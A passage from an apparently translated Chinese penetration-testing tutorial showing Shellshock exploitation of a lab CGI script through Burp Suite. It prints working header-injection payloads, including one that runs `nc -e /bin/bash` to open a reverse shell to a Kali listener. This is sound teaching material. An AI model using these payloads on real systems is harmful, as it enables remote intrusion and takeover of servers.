 响应现在有一个新的头部参数，称为`Vulnerable`。这是因为它将`echo`命令的输出集成到了我们提交的 HTML 头部，现在我们可以进一步执行更多有趣的命令。

1.  现在，尝试执行`() { :;}; echo "Vulnerable:" $(/bin/sh -c "/sbin/ifconfig")`命令。结果显示，命令的输出被包含在响应头中：

![](img/d705a9ed-a11a-460a-94a1-b6ff5044edb7.png)

1.  在渗透测试中，能够远程执行服务器上的命令是一个巨大的优势，接下来的自然步骤是获取远程 Shell，即建立一个直接连接，在此连接中我们可以发送更复杂的命令。打开 Kali Linux 中的终端，使用以下命令设置一个监听网络端口：`nc -vlp 12345`。

1.  现在，进入 Burp Suite 代理的历史记录，选择任何一个请求`shellshock.sh`，右键点击它，并将其发送到重复器。

1.  一旦进入重复器，更改`Referer`的值为：`() { :;}; echo "Vulnerable:" $(/bin/sh -c "nc -e /bin/bash 192.168.56.10 12345")`。在这种情况下，`192.168.56.10`是我们 Kali 机器的地址。

1.  点击“Go”。如果我们查看终端，可以看到连接已建立；发出一些命令以检查是否已经获得远程 Shell：
